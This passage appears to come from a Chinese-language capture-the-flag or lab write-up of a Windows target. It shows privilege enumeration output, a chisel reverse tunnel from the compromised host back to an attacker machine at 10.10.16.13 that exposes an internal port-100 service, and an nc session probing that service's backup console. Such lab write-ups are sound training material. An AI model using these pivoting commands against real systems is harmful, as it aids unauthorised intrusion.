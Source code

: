    ```
   BUILTIN\IIS_IUSRS                      Alias            S-1-5-32-568                                                   Mandatory group, Enabled by default, Enabled group
   LOCAL                                  Well-known group S-1-2-0                                                        Mandatory group, Enabled by default, Enabled group
   IIS APPPOOL\ExamPanel                  Well-known group S-1-5-82-2916625395-3930688606-393764215-2099654449-2832396995 Mandatory group, Enabled by default, Enabled group
   NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10                                                    Mandatory group, Enabled by default, Enabled group
   Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                                                                                      
   
   
   PRIVILEGES INFORMATION
   ----------------------
   
   Privilege Name                Description                          State   
   ============================= ==================================== ========
   SeIncreaseQuotaPrivilege      Adjust memory quotas for a process   Disabled
   SeShutdownPrivilege           Shut down the system                 Disabled
   SeAuditPrivilege              Generate security audits             Disabled
   SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
   SeUndockPrivilege             Remove computer from docking station Disabled
   SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
   SeTimeZonePrivilege           Change the time zone                 Disabled
   ```

   

2. 将目标机器的TCP 100端口转发到kali的100端口查看

   ```
   kali执行
   └─# ./chisel server -p 1234 --reverse
   
   
   目标机器执行
   C:\Users\svc_exampanel\Desktop>chisel.exe client 10.10.16.13:1234 R:100:127.0.0.1:100
   
   确定转发成功
   └─# ss -anlp | grep 100 
   tcp   LISTEN 0      4096                                              *:100                    *:*    users:(("chisel",pid=42949,fd=8)) 
   ```

   简单测试一下该服务

   ```
   └─# nc 127.0.0.1 100
   Reports Management administrative console. Type "help" to view available commands.
   help
   Available Commands:
   backup: Perform a backup operation.
   validate: Validates if any report has been altered since the last backup.
   recover <filename>: Restores a specified file from the backup to the Reports folder.
   upload <external source>: Uploads the reports to the specified external source.
   backup
   Backup operation completed successfully.
   validate
   Validation completed. All reports are intact.
   ```
